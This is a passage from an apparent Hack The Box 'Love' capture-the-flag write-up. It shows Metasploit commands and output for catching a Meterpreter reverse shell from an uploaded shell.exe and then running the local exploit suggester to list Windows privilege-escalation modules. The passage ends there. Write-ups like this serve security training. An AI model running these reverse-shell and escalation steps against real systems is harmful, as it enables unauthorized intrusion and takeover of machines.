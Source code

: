 #### Start Metasploit with `windows/x64/meterpreter/reverse_tcp` handler and listen for reverse shell connection 
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 5555; set payload windows/x64/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 5555
payload => windows/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.16.5:5555 
```

#### Execute the uploaded binary from the PHP Meterpreter shell
```
meterpreter > execute -f shell.exe
Process 5856 created.
```

#### Confirm reverse shell connection upgraded to `windows/x64/meterpreter/reverse_tcp`
```
[*] Sending stage (203846 bytes) to 10.129.222.158
[*] Meterpreter session 1 opened (10.10.16.5:5555 -> 10.129.222.158:65373) at 2025-08-25 18:07:24 +0200

meterpreter > getuid
Server username: LOVE\Phoebe
```

### Escalate to `Administartor` user using `exploit/windows/local/always_install_elevated`

#### Run exploit suggester to discover that target is vulnerable to `exploit/windows/local/always_install_elevated`
```
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > setg session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.222.158 - Collecting local exploits for x64/windows...
[*] 10.129.222.158 - 198 exploit checks are being tried...
[+] 10.129.222.158 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.129.222.158 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.129.222.158 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 10.129.222.158 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.129.222.158 - exploit/windows/local/cve_2021_40449: The target appears to be vulnerable. Vulnerable Windows 10 20H2 build detected!
[+] 10.129.222.158 - exploit/windows/local/cve_2022_21882_win32k: The target appears to be vulnerable.
[+] 10.129.222.158 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[+] 10.129.222.158 - exploit/windows/local/cve_2023_28252_clfs_driver: The target appears to be vulnerable. The target is running windows version: 10.0.19042.0 which has a vulnerable version of clfs.sys installed by default
[+] 10.129.222.158 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 47 / 47
[*] 10.129.222.158 - Valid modules for session 1:
```